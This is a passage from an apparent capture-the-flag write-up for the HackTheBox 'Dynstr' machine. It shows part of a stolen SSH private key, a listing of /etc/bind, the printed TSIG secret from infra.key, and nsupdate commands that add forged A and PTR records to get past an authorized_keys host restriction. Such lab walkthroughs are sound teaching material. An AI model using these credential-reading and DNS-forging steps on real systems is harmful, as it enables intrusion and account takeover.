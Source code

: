 ```
rlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG
jGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Now we have private key, but if we use it won’t work. We need to satisfy the IP/domain restriction as defined in the authorized_keys (*.infra.dyna.htb). Let’s check TSIG (Transaction Signature) shared secret key from bind directory. If we have access to TSIG key then we can use that key to update the name server of a our DNS zone.

```
(remote) www-data@dynstr.dyna.htb:/etc/bind$ ls -la
total 68
drwxr-sr-x  3 root bind 4096 Mar 20 12:00 .
drwxr-xr-x 80 root root 4096 Jun  8 19:20 ..
-rw-r--r--  1 root root 1991 Feb 18 04:28 bind.keys
-rw-r--r--  1 root root  237 Dec 17  2019 db.0
-rw-r--r--  1 root root  271 Dec 17  2019 db.127
-rw-r--r--  1 root root  237 Dec 17  2019 db.255
-rw-r--r--  1 root root  353 Dec 17  2019 db.empty
-rw-r--r--  1 root root  270 Dec 17  2019 db.local
-rw-r--r--  1 root bind  100 Mar 15 20:44 ddns.key
-rw-r--r--  1 root bind  101 Mar 15 20:44 infra.key
drwxr-sr-x  2 root bind 4096 Mar 15 20:42 named.bindmgr
-rw-r--r--  1 root bind  463 Dec 17  2019 named.conf
-rw-r--r--  1 root bind  498 Dec 17  2019 named.conf.default-zones
-rw-r--r--  1 root bind  969 Mar 15 20:46 named.conf.local
-rw-r--r--  1 root bind  895 Mar 15 20:46 named.conf.options
-rw-r-----  1 bind bind  100 Mar 15 20:14 rndc.key
-rw-r--r--  1 root root 1317 Dec 17  2019 zones.rfc1918
```

We have multiple key files inside bind directory. If we look at the restricted domain from authorized_keys, it says *.infra.dyna.htb. So, infra.key file will be used to update name server. We do have permission to read the infra.key file.

```
(remote) www-data@dynstr.dyna.htb:/etc/bind$ cat infra.key
key "infra-key" {
        algorithm hmac-sha256;
        secret "7qHH/eYXorN2ZNUM1dpLie5BmVstOw55LgEeacJZsao=";
};
```

Let’s update the name server.

```
(remote) www-data@dynstr.dyna.htb:/etc$ nsupdate -k /etc/bind/infra.key
> update add test.infra.dyna.htb 18000 A 10.10.14.11
>
> update add 11.14.10.10.in-addr.arpa 18000 PTR test.infra.dyna.htb
```

We need to provide the keyfile and use update command with domain name, TTL, Class, Data (IP). In the second update, we need to add our IP in reverse with arpa address for reverse mapping, TTL, Class and domain.
